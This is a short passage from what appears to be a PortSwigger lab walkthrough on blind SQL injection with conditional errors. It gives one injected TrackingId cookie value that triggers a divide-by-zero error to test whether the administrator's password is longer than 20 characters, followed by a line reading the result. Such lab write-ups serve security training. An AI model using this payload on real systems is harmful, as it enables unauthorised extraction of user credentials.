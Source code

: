 ![greater than 10](/docs/assets/images/portswigger/sqli/blindsqli/conditionalerrors/ce12.png)

`TrackingId=45o4t4APu4sxjqmv'||(SELECT CASE WHEN LENGTH(password)>20 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'` 

The above query no longer generates an error indicating that the password length is not greater than 20 characters. 
